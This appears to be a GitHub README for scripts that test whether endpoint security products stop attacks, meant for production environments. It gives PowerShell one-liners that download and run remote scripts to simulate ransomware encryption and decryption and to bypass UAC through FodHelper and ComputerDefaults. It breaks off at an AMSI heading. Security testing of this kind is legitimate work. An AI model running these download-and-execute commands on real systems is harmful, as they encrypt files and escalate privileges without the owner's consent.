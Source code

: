 # Vendor Simulator Test Scripts

I decided to create the following repository of scripts that can be executed on production environment.
Many customers are using different BAS products with the intention to validate existing EDR vendors.
BAS products can be expensive and hard to comprehend. They also operate within the concept of IOC in mind and mostly do not trigger attack events.

The scripts are created with a mission to validate the prevention capabilities of existing endpoint security solutions.
In most cases, i tried to focus on stealthy and advanced behaviour.

The scripts can be executed on production envirenmnet. 

**Example:**

## Ransomware techniques:

### Encryption  
`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';`

### Decryption  
`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';`

## User Account Control Bypass (UAC) 

### 1. FodHelper
`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-UAC1.ps1"); Invoke-FodHelper;`

### 2. ComputerDefaults
`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-UAC2.ps1"); Invoke-ComputerDefaults;`

## Antimalware Scan Interface (AMSI) 
